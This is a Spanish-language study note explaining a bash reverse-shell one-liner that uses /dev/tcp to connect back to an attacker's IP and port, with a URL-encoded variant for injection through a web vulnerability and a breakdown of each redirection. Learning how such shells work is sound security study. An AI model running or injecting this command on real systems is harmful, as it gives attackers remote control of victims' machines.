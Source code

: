 
---

### Comando para Entablar una Reverse Shell

El siguiente comando se utiliza para crear una **reverse shell** desde una máquina víctima hacia una máquina atacante. Esto es útil cuando tienes acceso a ejecutar comandos en la máquina víctima, por ejemplo, a través de una vulnerabilidad en una aplicación web.

El comando es el siguiente:

```bash
bash -c "bash -i >& /dev/tcp/[ip_atacante]/[puerto] 0>&1"
```

Sin embargo, si estás inyectando este comando en una URL, el carácter `&` es reservado y debe ser reemplazado por `%26`. El comando modificado para uso en una URL sería:

```bash
bash -c "bash -i >%26 /dev/tcp/[ip_atacante]/[puerto] 0>%261"
```

---

### Explicación Detallada del Comando

Vamos a desglosar el comando paso a paso para entender qué hace cada parte:

1. **`bash -c`**:
   - Este comando le dice a la shell (intérprete de comandos) que ejecute el siguiente string como un comando.
   - Es útil cuando quieres ejecutar un comando complejo o una cadena de comandos desde una sola línea.

2. **`bash -i`**:
   - Aquí se inicia una nueva instancia de `bash` en modo **interactivo** (`-i`).
   - El modo interactivo permite que la shell acepte entradas del usuario y muestre salidas, lo cual es esencial para una reverse shell.

3. **`>& /dev/tcp/[ip_atacante]/[puerto]`**:
   - Esta parte redirige la salida estándar (`stdout`) y la salida de error (`stderr`) de la shell a una conexión TCP.
   - `/dev/tcp/[ip_atacante]/[puerto]` es una característica de Bash que permite abrir una conexión TCP hacia la dirección IP y puerto especificados.
     - `[ip_atacante]`: Debes reemplazar esto con la dirección IP de la máquina atacante.
     - `[puerto]`: Debes reemplazar esto con el puerto en el que la máquina atacante está escuchando.
   - En resumen, esta parte envía la salida de la shell (lo que se escribe en la terminal) a través de la red hacia el atacante.

4. **`0>&1`**:
   - Esto lo que hace es redirigir la entrada estándar (`stdin`) de la shell hacia la misma conexión TCP.
   - En otras palabras, cualquier dato que el atacante envíe a través de la conexión TCP será tratado como entrada para la shell en la máquina víctima.
   - Esto permite que el atacante interactúe con la shell remota como si estuviera directamente en la máquina víctima.

> Recordar que 
- 0 es `stdin`
- 1 es `stdout` 
- 2 es `stderr`.

---

[[bash]]
[[stder_stdout]]
[[Reverse Shell]]